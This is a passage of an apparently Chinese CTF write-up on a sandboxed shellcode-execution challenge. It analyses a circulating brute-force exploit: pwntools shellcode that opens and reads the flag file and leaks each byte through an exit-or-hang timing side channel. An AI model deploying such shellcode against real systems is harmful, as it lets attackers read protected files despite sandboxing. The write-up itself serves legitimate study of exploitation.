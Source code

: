 [![](assets/1703640353-75b3b3ae20712e38f178c3fe46d49763.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231225191659-1eca9a86-a317-1.png)  
这里就是用mmap去申请0x1000的空间，然后设置了沙箱，read只允许读入0x40大小的数据

[![](assets/1703640353-a8efaf8a5c12261ce8cea999eefce268.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231225191713-273453ba-a317-1.png)  
本地运行一下发现基本上就是直接执行输入的东西  
然后我们分析一下现在流传的爆破脚本

```plain
def exp(dis,char):
    p.recvuntil("Welcome to silent execution-box.\n")
    shellcode = asm('''
        mov r12,0x67616c66
        push r12
        mov rdi,rsp
        xor esi,esi
        xor edx,edx
        mov al,2
        syscall
        mov rdi,rax
        mov rsi,0x10700
        mov dl,0x40
        xor rax,rax
        syscall
        mov dl, byte ptr [rsi+{}]
        mov cl, {}
        cmp cl,dl
        jz loop
        mov al,60
        syscall
        loop:
        jmp loop
        '''.format(dis,char))
```